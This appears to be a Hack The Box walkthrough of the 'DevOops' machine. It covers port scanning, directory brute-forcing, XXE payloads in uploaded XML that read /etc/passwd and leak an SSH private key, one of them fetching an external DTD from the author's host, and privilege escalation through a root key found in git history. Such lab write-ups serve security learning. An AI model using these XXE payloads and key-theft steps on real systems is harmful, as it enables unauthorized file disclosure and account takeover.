 ```yaml
---
layout: post
title: "Devops"
categories: HTB-Walkthrough
---
```


![dev0ops1](/assets/img/dev0ops/dev0ops1.png)

DevOops is another 'more challenging' than OSCP boxes from TJNull's list.


nmap first.

<h3>Nmap</h3>

```
nmap -sV -Pn --min-rate 10000 -p- 10.10.10.91 |tee -a devoops.txt
```

```

Nmap scan report for 10.10.10.91
Host is up (0.11s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn 19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

```

<hr width="250" size="6">


![port5000](/assets/img/dev0ops/devoops-5000.png)


<h3>Gobuster</h3>

```
gobuster dir -u http://10.10.10.91:5000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.py,.txt,.asp,.aspx,.sh
```

<hr width="250" size="6">


`/feed` seems to show a png with info about aws.

![feed](/assets/img/dev0ops/devoops-feed.png)

<hr width="250" size="6">

`/upload` may be a possible vector of attack.

![upload](/assets/img/dev0ops/devoops-upload.png)


I make a test.xml file to upload, to see if it will work.

```xml

<note>
<Author>sh1n0bi</Author>
<Subject>testes</Subject>
<Content>testes...testes...1...2...3???</Content>
</note>

```


The result is reflected on the webpage.
![xml-upload](/assets/img/dev0ops/devoops-xml-upload.png)


<hr width="250" size="6">


make evil.xml:

```

<!--?xml version="1.0" ?-->
<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://10.10.14.24/1.dtd">%remote;%int;%trick;]>
<note>
<Author>&b;</Author>
<Subject>sh1n</Subject>  
<Content>Reminder</Content>
</note>

```

This will call 1.dtd from Kali through the python webserver
```
python3 -m http.server 80
```

contents of 1.dtd:


```
<p class="p1"><!ENTITY b SYSTEM "file:///etc/passwd" ></p>
```

`500 server error....didnt work....`


Create mal.xml, this one doesn't require 1.dtd

```xml

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
        <Author>foo</Author>
        <Subject>HTB</Subject>
        <Content>&xxe;</Content>
</creds>

```

The result was not entirely what was expected:

![malxml](/assets/img/dev0ops/devoops-malxml-out.png)



<hr width="250" size="6">

We've ended up with a private id_rsa key, likely for user `roosa` mentioned in the filepath.

Copy its contents as `rsa_key`

```
chmod 600 rsa_key
```

Then try to ssh into the target as roosa.

```
ssh -i rsa_key roosa@10.10.10.91
```

It works! we now have roosa's shell...and the user flag.

![ssh-roosa](/assets/img/dev0ops/devoops-ssh-roosa.png)

```
roosa@gitter:~$ cat user.txt
c5xxxxxxxxxxxxxxxxxxxxxxxxxxxx7b
roosa@gitter:~$ 
```


<h3>Privilege Escalation</h3>



The `.bash_history` is readable


```

roosa@gitter:~$ cat .bash_history
ssh-keygen --help
ssh-keygen 
ls -altr .ssh/
cat .ssh/id_rsa.pub 
nano /etc/host
nano /etc/hostname 
sudo nano /etc/hostname 
exit
nano .ssh/id_rsa.pub 
exit
ssh git@localhost
exit
ssh git@localhost
clear
apt-get upgrade
exit
ls -altr
mkdir work
cd work
mkdir blogfeed
git init
git add .
git commit -m 'initial commit'
git config --global user.email "roosa@solita.fi"
git config --global user.name "Roosa Hakkerson"
git commit -m 'initial commit'
nano README-MD
nano README-md
nano README.md
git add README.md 
git commit -m 'initial commit'
git remote add origin git@localhost:/srv/git/blogfeed.git
git push origin master
exit
ps -Af
kill 27499
exit
sudo su -
exit
groups
exit
git push origin master
cd work/blogfeed/
git push origin master
cd ..
cd blogfeed/
cd ..
git add README.md 
git commit -m 'Initial commit'
git push
git log 
ls 
nano integration/auth_credentials.key/
ls -altr
chmod go-rwx authcredentials.key 
ls -atlr
cd ..
ls -altr
chmod -R o-rwx .
ls -altr
ls resources/
ls resources/integration/
ls -altr resources/
ls -altr resources/integration/
rm -Rf resources/integration/auth_credentials.key
mv resources/authcredentials.key resources/integration/
git add resources/integration/authcredentials.key 
git commit -m 'add key for feed integration from tnerprise backend'
ls -altr resources/integration/
git push
ssh-keygen
ös -altr
ls .altr
ls -altr
cat kak
cp kak resources/integration/authcredentials.key 
git add resources/integration/authcredentials.key 
git commit -m 'reverted accidental commit with proper key'
git push
ls -altr
rm kak
rm kak.pub 
git log

<--snip-->

```

Besides running the gunicorn.sh file (which runs the webservice), the user seems to work
a lot with `git`.

There's a `work` folder in the user's home directory, and another inside called `blogfeed`.

It also seems that the user generated new authentication keys.


`cd work/blogfeed`


```
git log -p
```

The log is long, and reveals another private ssh key.

![gitkey](/assets/img/dev0ops/devoops-gitlog-revertedkey.png)



My experience of git is very limited, but it looks like the key with each line preceeded with a minus (-)
is being replaced with that whose lines start with pluses (+)

It also helps that my terminal has the outgoing as coloured red and the incomming as green.



I copypaste the green key to Kali, and remove the `+` in each line...

I follow the same proceedure as before...saving the file this time as `rkey`

```
chmod 600 rkey
```

use it to login via ssh as root:


```
ssh -i rkey root@10.10.10.91
```

![rootssh](/assets/img/dev0ops/devoops-rootssh.png)


Getting the root flag is a simple formality from here.


<hr width="250" size="6">

:)




